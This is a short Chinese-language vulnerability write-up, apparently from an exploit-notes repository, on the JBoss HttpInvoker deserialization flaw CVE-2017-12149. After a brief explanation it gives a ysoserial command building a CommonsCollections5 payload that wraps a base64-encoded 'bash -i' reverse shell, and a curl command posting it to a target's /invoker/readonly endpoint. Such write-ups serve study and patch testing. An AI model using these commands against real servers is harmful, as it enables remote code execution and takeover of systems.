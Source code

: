 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

## 漏洞介绍:

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 漏洞分析：

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![image-20210401130731439](1.png)

## 漏洞复现：

java 反弹shell
http://www.jackson-t.ca/runtime-exec-payloads.html

**生成exp**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**通过curl发送**

```curl
curl http://xxxx:8080/invoker/readonly  --data-binary @poc.ser
```

